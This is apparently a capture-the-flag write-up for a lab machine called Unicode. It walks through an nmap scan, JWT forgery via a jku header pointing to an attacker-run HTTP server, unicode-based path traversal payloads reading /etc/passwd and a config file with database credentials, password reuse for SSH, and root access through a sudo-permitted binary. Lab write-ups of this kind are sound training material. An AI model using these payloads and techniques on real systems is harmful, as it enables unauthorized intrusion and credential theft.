




### Scanning and Enumeration of Open Ports (Using Nmap)

##### Nmap

Nmap (or network mapper) is a open source tool for Network exploitation and security analysis. Using Nmap, you can scan
one or several hosts for different services running on different ports.
For installing and more info on Nmap , use

```noLineNumbers
sudo apt install nmap
man nmap
```

##### Service Scanning

```noLineNumbers
nmap -Pn -sV -sC 10.10.11.126
```

-sV: Probe open ports to determine service/version info

-sC: equivalent to --script=default

-Pn: Treat all hosts as online -- skip host discovery

```
➜  Unicode git:(master) ✗ nmap -Pn -sV -sC 10.10.11.124  

Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-02 13:59 IST
Nmap scan report for 10.10.11.126
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 503
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.22 seconds


```

We can see a Http server running on Port 80

### Checking on port 80:

We got the site url : ```hackmedia.htb```


Open ```/etc/hosts``` file and add ```10.10.11.126    hackmedia.htb```
```
sudo nano /etc/hosts
```
Register  and login on the portal.

After login we get a portal like this.


We have a upload portal , which allows us to upload a pdf file. I renamed ```php reverse shell``` file to .pdf extension and
uploaded it but seems like that upload can be passed but not executed.

### JWT Token Poisoning
On exploring, found a ```cookie``` with quite a known syntax. The cookie seemed like a ```JWT Token```.

On analysing the cookie with ```jwt.io```,we got the following information.



Migrated to ```/static/jwks.json``` and found


We need to generate a private and public rsa key pair with the info in jwks.json file and tamper with the token to login 
as ```Admin```.

Got a resource [here](https://mkjwk.org/) which takes the algo type and kid to generate ```n,e and rsa key pairs.``` 

Enter the valid details and copy the private key and public key in jwt.io.
Change payload as 

```
{
    "user" : "admin"
}
```

And last important step, we need that the site verify the jwt token from the ```n and e```, we have generated. 
So create a ```local jwks.json``` file and paste the n and e obtained in the same file format.

Next we open a ```python http server.```

```
python3 -m http.server
```

and modify the ```jku``` field in the header as follows:

```
{
    "jku" : "http://hackmedia.htb/static/../redirect?url=<your ip where you started python server>"/jwks.json
}
```

The final inputs look as follows and we get the required JWT Token.



Refresh the page and we get the new dashbaord.


### Path Traversal and USER OWN

Clicking on these two options will take us to url ```http://hackmedia.htb/display/?page=monthly.pdf```


Lets try to see if we can do a directory traversal here.On putting any random url like ```file=\etc\passwd```, we get the following 
response.


This means we need a intelligent query to bypass the filters.
Searched online and found some tricks [here](https://lazarv.com/posts/unicode-normalization-vulnerabilities/) for path traversal.

Used the following method:
```
Directory traversal
︰/︰/︰/etc/passwd
```

and got the response


This means we have bypassed the filter. Lets add more layers to make the searched file existant.

```
Directory traversal
︰/︰/︰/︰/︰/︰︰/︰/︰/etc/passwd
```
and yipee got the folowing response

```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin 
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin 
syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin 
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false 
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin 
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin 
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin 
pollinate:x:110:1::/var/cache/pollinate:/bin/false 
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin 
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin 
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin 
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false 
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false 
code:x:1000:1000:,,,:/home/code:/bin/bash

```

Found a user ```code``` in the target machine. Lets use the above path  traversal method to read ```/home/code/user.txt```
and yeah got the user flag.

### MYSQL credentials

Lets find out way to get shell for code user.
We see the target mmachine has mysql service up and running.

Can we read the mysql credentials from any file using the power of path traversal we have??? Hmmm... 

*Nginx* is running MYSQL service on the target machine. Lets read its configuration file to see if we can find out something.

At ```/etc/nginx/nginx.conf``` we found ```/etc/nginx/sites-enabled/default``` file. 

```
limit_req_zone 
$binary_remote_addr zone=mylimit:10m rate=800r/s; 
server{ #Change the Webroot from /home/code/app/ to /var/www/html/ 
#change the user password from db.yaml listen 80; error_page 503 /rate-limited/; location / 
{ limit_req zone=mylimit; proxy_pass http://localhost:8000; include /etc/nginx/proxy_params; proxy_redirect off; } 
location /static/{ alias /home/code/coder/static/styles/; } }
```

Got another path ```/home/code/coder```
Read the db.yaml file from the directory and we  got the credentials for MYSQL.

Using the same password of MYSQL Database for sshing as code.

### System OWN

Ran ```linpeas.sh``` on the target machine and got
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for code on code:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User code may run the following commands on code:
    (root) NOPASSWD: /usr/bin/treport

```

code can run treport service as root.

On running 
```
sudo -u root /usr/bin/treport
```
the following application started.


We can use this service as root and also download file. Lets try to download file /root/root.txt. 
As this is local file we will use the url ```file:///root/root.txt``` for downloading the file.

Read the file and yipee we got the root flag.